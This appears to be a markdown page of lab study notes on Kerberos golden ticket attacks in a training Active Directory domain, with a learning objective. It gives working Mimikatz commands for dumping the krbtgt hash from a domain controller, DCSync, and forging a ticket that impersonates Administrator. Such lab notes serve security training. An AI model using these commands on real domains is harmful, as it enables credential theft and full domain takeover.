 # Kerberos Overview

![image](https://user-images.githubusercontent.com/40224197/211092233-09072959-26e6-43fc-8ee0-f51920b2faf0.png)


# Golden Ticket

• A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

• Since user account validation is not done by Domain Controller (KDC service) until TGT is older than 20 minutes, we can use even deleted/revoked accounts.

• The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

• Password change has no effect on this attack.

#### Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc
```

#### On any machine
```powershell 
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

![image](https://user-images.githubusercontent.com/40224197/211091844-b2b3d48c-b9e9-40c7-bc43-0f1ca222df08.png)
![image](https://user-images.githubusercontent.com/40224197/211091943-9adde2f1-dc02-4b73-afb2-893c7b5acee0.png)

#### To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Using the DCSync option needs no code execution (no need to run `Invoke-Mimikatz`) on the target DC.

# Learning Objective 8

• Dump hashes on the domain controller of dollarcorp.moneycorp.local.

• Using the NTLM hash of krbtgt account, create a Golden ticket.

• Use the Golden ticket to (once again) get domain admin privileges from a machine.
